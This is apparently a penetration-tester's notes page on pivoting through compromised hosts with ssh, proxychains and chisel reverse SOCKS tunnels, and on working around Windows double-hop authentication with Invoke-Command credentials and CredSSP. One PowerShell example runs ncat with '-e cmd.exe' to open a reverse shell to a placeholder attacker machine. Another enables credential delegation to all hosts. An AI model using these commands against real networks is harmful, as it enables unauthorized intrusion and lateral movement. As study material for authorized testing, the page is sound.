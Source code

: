 # Pivoting/Tunneling  
## SSH   
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)   
  
## Socks    
On the attacker machine (server):      
`./chisel server -p 80 --reverse`   
  
On the pivot/victim machine (client):   
`./chisel client 10.10.14.47:80 R:6666:socks`  
      
Add `socks5 127.0.0.1 6666` in `/etc/proxychains4.conf`     
Then `proxychains <command>`    
     
     
## Double hop authentication problem fix  
   
**What is the double hop problem ?**  
*(Source from ATTL4S : https://www.youtube.com/watch?v=p9QFdITuvgU)*  
  
Services that support Windows authentication carry out something called client impersonation.  
When we access a service :   
1- Credentials are verified  
2- An Access Token with the security context (SID, name, groups, etc.) of your user is created  
3- The service places a copy of that Token into a new thread  
4- That thread can act on your behalf and is subject to the restrictions imposed
by ACLs  
  
The process is detailed in the picture below:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/98-PentestAD-token_impersonation.png?raw=true)  
  
The problem is that when authenticating from an interactive authentication, credentials are (usually) stored in lsass.exe for SSO purposes.  
When authenticating from a network authentication, credentials are NOT (usually) stored in lsass.exe, so our credentials will not be cached on the target server.  
  
Interactive authentication vs network authentication:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/97-PentestAD-interactive_vs_network_authentication.png?raw=true)  
  
On the last jump, the service does not have the credentials to act as on behalf of the user :  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/99-PentestAD-double_hop.png?raw=true)   
  
**How to solve the double hop problem ?**  
*(Sources : https://notes.qazeer.io/general/pivoting)*   
This Microsoft document explains how to face the "double hop" problem :   
https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.3&viewFallbackFrom=powershell-7.1  

To solve the "double hop" authentication problem, which occurs whenever trying to access resources on a third server from the first remotely connected server, the `-Credential` argument inside the `Invoke-Command` cmdlet and the CredSSP authentication mechanism can be used. Simply put, the problem happens because credentials are not allowed for delegation and thus can't be passed whenever accessing network resources from the remotely connected system. All access ends up being unauthenticated and results in Access denied errors.  
Using `-Credential` inside `Invoke-Command`:  
```
$user = 'domain.lol\johnfromthegarden'
$pass = 'Habile!123'
$secpasslol = ConvertTo-SecureString $pass -AsPlainText -Force
$creds = New-Object system.management.automation.PSCredential $user,$secpasslol

Invoke-Command -ComputerName 192.168.110.54 -Credential $creds -ScriptBlock {c:\temp\leperche\ncat.exe <the_attacker_machine_listening> 443 -e cmd.exe}
```

If using CredSSP, supports for CredSSP must be activated and configured on the client attacking system. The configuration below allows delegation to any system.
Check if CredSSP is enabled:  
```
Invoke-Command -ComputerName bizintel -Credential ta\redsuit -ScriptBlock {
    Get-WSManCredSSP
}
```
  
Enable CredSSP:  
```
winrm quickconfig
Set-Item WSMan:localhost\client\trustedhosts -value *
Enable-WSManCredSSP -Role "Client" -DelegateComputer "*"  
```
```
Start gpedit.msc
-> "Local Computer Policy" -> "Computer Configuration" -> "Administrative Templates" -> "System" -> "Credential Delegation"
-> In the "Settings" pane, "Allow Delegating Fresh Credentials with NTLM-only Server Authentication". -> "Enabled"
-> And in the "Options" area, "Show" -> "Value" = WSMAN/*
-> "Concatenate OS defaults with input above" checked
Once CredSSP is activated and correctly configured, the PowerShell cmdlets Invoke-Command and Enter-PSSession can be used with the -Authentication CredSSP option to make connections using CredSSP.
```  
  
